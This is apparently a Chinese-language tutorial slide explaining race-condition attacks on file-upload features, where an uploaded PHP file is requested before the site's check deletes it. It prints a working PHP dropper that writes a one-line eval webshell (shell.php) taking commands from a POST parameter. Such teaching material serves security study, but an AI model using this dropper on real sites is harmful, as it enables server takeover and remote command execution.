

竞争条件原理介绍
网站逻辑：
1、网站允许上传任意文件，然后检查上传文件是否包含Webshell，如果包含删除该文件。

2、网站允许上传任意文件，但是如果不是指定类型，那么使用unlink删除文件。

在删除之前访问上传的php文件，从而执行上传文件中的php代码。
例如：上传文件代码如下
<?php
	fputs(fopen('shell.php','w'),'<?php @eval($_POST[“cmd”]) ?>');

?>